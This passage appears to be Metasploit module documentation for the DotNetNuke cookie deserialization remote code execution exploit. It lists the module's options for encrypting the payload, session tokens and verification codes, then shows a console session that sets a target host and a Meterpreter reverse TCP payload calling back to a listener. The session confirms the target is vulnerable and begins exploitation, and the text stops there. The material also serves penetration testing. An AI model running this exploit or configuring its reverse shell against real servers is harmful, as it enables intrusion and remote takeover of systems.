 ## Options
 
  **DryRun**
  
  Set this to `true` to generate a payload, but not send the exploit to the target server. Default value is `false`.
  
  **ENCRYPTED**
  
  Set this to `true` for targets running v9.1.1+. Default value is `false`.
  
  **IV**
  
  The initialization vector to use for encrypting the payload. If specified along with `KEY`, `VERIFICATION_CODE` and `VERIFICATION_PLAIN` options will be ignored.
  
  **KEY**
  
  The key to use for encryption. If specified along with `IV`, `VERIFICATION_CODE` and `VERIFICATION_PLAIN` options will be ignored.
  
  **SESSION_TOKEN**
  
  The .DOTNETNUKE session cookie value to use when submitting the payload to the server. Required for targets running v9.2.0+.
  
  **SRVPORT**
  
  The server port to listen for HTTP callbacks on when testing encryption passphrases for targets running v9.2.2 - v9.3.0-RC. Default value is `8080`
  
  **TARGETURI**
  
  Path to a page that will result in a DNN 404 Error Page. The default location is `/__`
  
  **VERIFICATION_CODE**
  
  The verification code received in an email, or the full path to a file containing multiple verification codes.
  
  **VERIFICATION_PLAIN**
  
  The known (full or partial) plaintext of the encrypted verification code. Typically in the format of {portalID}-{userID} where portalID is an integer and userID is either an integer (v9.1.1 - v9.2.1) or GUID (v9.2.2+). 
  
  

## Scenarios
### v5.1.0 - v9.1.0
  Here's showing the expected output:
  
  ```
  msf5 > use exploit/windows/http/dnn_cookie_deserialization_rce 
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > set RHOSTS 192.168.31.131
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > set RPORT 8083
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > set PAYLOAD windows/meterpreter/reverse_tcp
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > set LHOST 192.168.31.128
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > set LPORT 443
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > check

  [*] Trying to determine DNN Version...
  [*] Checking version at /Documentation/License.txt ...
  [+] DNN Version Found: v5.1.0 - v9.0.1
  [*] Checking for custom error page at: /__ ...
  [+] Custom error page detected.
  [*] 192.168.31.131:8083 - The target appears to be vulnerable.
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > exploit

  [*] Checking for custom error page at: /__ ...
  ```